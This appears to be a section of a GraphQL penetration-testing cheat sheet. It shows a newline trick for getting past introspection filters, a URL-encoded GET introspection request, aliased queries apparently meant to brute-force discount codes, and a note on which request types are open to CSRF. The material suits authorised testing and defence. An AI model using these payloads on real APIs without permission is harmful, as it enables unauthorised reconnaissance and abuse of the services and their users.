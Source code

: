 # 4.1 Bypassing GraphQL Introspection Defenses

If introspection queries are disabled for the API you're testing, try inserting a special character after the `__schema` keyword. Developers might use a regex to exclude `__schema` in queries, which can be bypassed using characters like spaces, new lines, or commas.

## Example: Introspection Query with Newline
```graphql
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

# 4.2 Use different request Methods

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D

```


# 4.3 Aliased Queries

```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}

```

# 4.4 CSRF

Secure POST Requests: POST requests using application/json are secure if the content type is validated.

Vulnerable Request Methods: GET requests or POST requests with x-www-form-urlencoded can leave users vulnerable to CSRF attacks.